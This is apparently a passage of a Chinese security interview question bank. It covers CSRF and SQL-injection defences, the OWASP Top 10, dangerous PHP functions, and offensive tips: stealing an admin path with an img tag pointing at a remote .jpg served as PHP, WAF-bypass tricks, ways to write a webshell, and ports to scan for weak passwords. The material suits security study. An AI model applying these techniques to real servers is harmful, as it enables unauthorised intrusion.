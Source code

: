 **47、如何防止 CSRF?** 1, 验证 referer 2，验证 token 详细：[CNode：Node.js 专业中文社区](http://cnodejs.org/topic/5533dd6e9138f09b629674fd "CNode：Node.js专业中文社区")

**48、owasp 漏洞都有哪些？** 1、SQL 注入防护方法： 2、失效的身份认证和会话管理 3、跨站脚本攻击 XSS 4、直接引用不安全的对象 5、安全配置错误 6、敏感信息泄露 7、缺少功能级的访问控制 8、跨站请求伪造 CSRF 9、使用含有已知漏洞的组件 10、未验证的重定向和转发

**49、SQL 注入防护方法？** 1、使用安全的 API 2、对输入的特殊字符进行 Escape 转义处理 3、使用白名单来规范化输入验证方法 4、对客户端输入进行控制，不允许输入 SQL 注入相关的特殊字符 5、服务器端在提交数据库进行 SQL 查询之前，对特殊字符进行过滤、转义、替换、删除。

**50、代码执行，文件读取，命令执行的函数都有哪些？**

1）代码执行：

eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function

2）文件读取：

file_get_contents(),highlight_file(),fopen(),read

file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file() 等 3) 命令执行：

system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()

**51、img 标签除了 onerror 属性外，还有其他获取管理员路径的办法吗？** src 指定一个远程的脚本文件，获取 referer

**52、img 标签除了 onerror 属性外，并且 src 属性的后缀名，必须以. jpg 结尾，怎么获取管理员路径。**

1）远程服务器修改 apache 配置文件，配置. jpg 文件以 php 方式来解析 AddType application/x-httpd-php .jpg <img src=[http://xss.tv/1.jpg](http://xss.tv/1.jpg "http://xss.tv/1.jpg")> 会以 php 方式来解析

**53、为什么 aspx 木马权限比 asp 大？**

aspx 使用的是. net 技术。IIS 中默认不支持，ASP 只是脚本语言而已。入侵的时候 asp 的木马一般是 guest 权限… APSX 的木马一般是 users 权限。

**54、如何绕过 waf？**

*   大小写转换法
*   干扰字符 `/*!*/`
*   编码 base64 unicode hex url ascll
*   复参数

**55、如何向服务器写入 webshell？**

*   各种上传漏洞
*   mysql 具有写入权限, 用 sql 语句写入 shell
*   http put 方法

**56、渗透测试中常见的端口**

1,web 类 (web 漏洞 / 敏感目录) 第三方通用组件漏洞 struts thinkphp jboss ganglia zabbix

```
80 web 
80-89 web 
8000-9090 web
```

2, 数据库类 (扫描弱口令)

```
1433 MSSQL 
1521 Oracle 
3306 MySQL 
5432 PostgreSQL 
```
